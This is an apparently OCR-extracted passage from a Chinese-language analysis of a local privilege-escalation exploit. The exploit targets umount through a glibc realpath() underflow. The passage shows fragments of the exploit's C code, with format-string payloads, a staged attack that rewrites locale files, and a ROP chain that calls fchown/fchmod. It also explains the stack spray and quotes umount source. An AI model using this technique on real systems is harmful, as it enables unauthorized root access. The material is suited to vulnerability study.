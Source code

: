 ```c
                  escalationString,
                  "BBBB5678%3$s\n",
                  "BBBBABCD%s\n"},
              3);
          break;
        case 2:		// 阶段 2，修改了参数 “LANGUAGE”，从而触发了 util-linux.mo 的重新读入，然后将新的格式化字符串写入到另一个 util-linux.mo 中
        case 3:		// 阶段 3，读取 umount 的输出以避免阻塞进程，同时等待 ROP 执行 fchown/fchmod 修改权限和所有者，最后退出
// Wait for pipe connection and output any result from mount.
          readDataLength=0;
          break;
          [...]
      }
      if(moveLength) {
        memmove(readBuffer, readBuffer+moveLength, readDataLength-moveLength);
        readDataLength-=moveLength;
      }
    }
  }

attemptEscalationCleanup:
  [...]
  return(escalationSuccess);
}
```
通过栈喷射在内存中放置大量的 "AANGUAGE=X.X" 环境变量，这些变量位于栈的上部，包含了大量的指针。当运行 umount 时，很可能会调用到 `realpath()` 并造成下溢。umount 调用 `setlocale` 设置 locale，接着调用 `realpath()` 检查路径的过程如下：
```c
/*
 * Check path -- non-root user should not be able to resolve path which is
 * unreadable for him.
 */
static char *sanitize_path(const char *path)
{
    [...]
	p = canonicalize_path_restricted(path);	// 该函数会调用 realpath()，并返回绝对地址
    [...]
	return p;
}

int main(int argc, char **argv)
{
	[...]
	setlocale(LC_ALL, "");	// 设置 locale，LC_ALL 变量的值会覆盖掉 LANG 和所有 LC_* 变量的值
	[...]
	if (all) {
		[...]
	} else if (argc < 1) {
		[...]
	} else if (alltargets) {
		[...]
	} else if (recursive) {
		[...]
	} else {
		while (argc--) {
			char *path = *argv;

			if (mnt_context_is_restricted(cxt)
			    && !mnt_tag_is_valid(path))
				path = sanitize_path(path);		// 调用 sanitize_path 函数检查路径

			rc += umount_one(cxt, path);

```
